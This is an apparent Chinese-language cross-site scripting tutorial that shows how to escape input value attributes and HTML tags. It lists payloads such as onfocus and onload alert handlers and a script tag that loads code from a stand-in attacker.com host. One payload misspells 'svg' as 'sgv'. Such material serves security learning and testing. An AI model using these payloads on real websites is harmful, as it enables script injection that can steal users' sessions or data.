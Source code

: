 假设输入框源码：`<input type="text" name="2sec" value="[?]"`*(其中value中的[?]是可输入部分)*

Payload1:

```html
<!--value=-->
" "autofocus/onfocus=alert(1)//
<!--result-->
<input type="text" name = "2sec" value = "" autofocus/onfocus=alert(1)//">
```

Payload2:

```html
// value=
" "><sgv onload=alert("XSS")//
```

### HTML标签中

HTML标签下的XSS时一种最常见的情况，例如：

```html
<!DOCTYPE HTML>
<html>
<head>
<title>HTML Context</title>
</head>
<body>
{{用户输入}}
</body>
</html>
```

可使用一下payloads：

```html
<script src=//attacker.com/eval.js></script>
<script>alert(1)</script>
<svg onload=alert(1)>
<body onload=alert(1)>
<iframe onload=alert(1)>
```

为了注入JS代码成功，我们需要闭合前面的HTML标签，然后使用`<svg onload=alert(1)//` 类似payload 就可以成功XSS。

但是有些html标签中不执行js代码，例如：`<title>, <textarea >,<xmp>`都需要使用`</title><script>alert(1)</script>` 先闭合标签，再插入JS代码。

### HTML属性中

用户的输入是在html标签的属性当中时，如何来执行JS代码？会有三种情况：

- 单引号
- 双引号
- 无引号

```html
<html>
<body>
.....
...
<input type="" name="input" value="{{用户输入}}"> <!-- 双引号 -->
<input type="" name="input" value='{{用户输入}}'> <!-- 单引号 -->
<input type="" name="input" value={{用户输入}}> <!-- 无引号 -->
...
....
</body>
</html>
```
